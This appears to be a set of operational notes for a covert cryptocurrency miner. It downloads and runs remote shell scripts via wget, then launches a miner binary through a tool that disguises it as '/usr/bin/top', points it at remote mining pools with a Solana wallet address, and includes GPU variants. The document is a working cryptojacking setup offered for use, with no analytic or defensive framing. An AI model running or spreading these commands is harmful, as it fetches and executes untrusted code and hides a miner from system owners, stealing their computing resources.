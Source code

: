 ##action one 

#deep

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh && cd /usr/bin

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url latifgbl-64001.portmap.host:64001 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xcodbs1 --pass x -k -t 3 --randomx-wrmsr -1 	--randomx-no-rdmsr --randomx-no-numa 


./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.coln3 --pass x -k -t 3 --randomx-wrmsr -1 	--randomx-no-rdmsr --randomx-no-numa 

#datalr

wget https://raw.githubusercontent.com/hudahadoh/hime/main/dl.sh && chmod +x dl.sh && ./dl.sh && cd /usr/bin

##rand optimized deep
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 6 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 3 --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 

./bhmax --OPENCL -o 158.69.251.105:4052 -u SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 -k --tls --rig-id GC-em

export PATH=/usr/local/cuda/bin${PATH:+:${PATH}}
export LD_LIBRARY_PATH=/usr/local/cuda/lib64${LD_LIBRARY_PATH:+:${LD_LIBRARY_PATH}}


##rand optimized datalr
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhdl --pass x -k -t 2 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


###rand optimized colb

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 90 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax

### udahags

./bhmax --url 0.0.0.0:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xit --pass x -k -t 3 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages
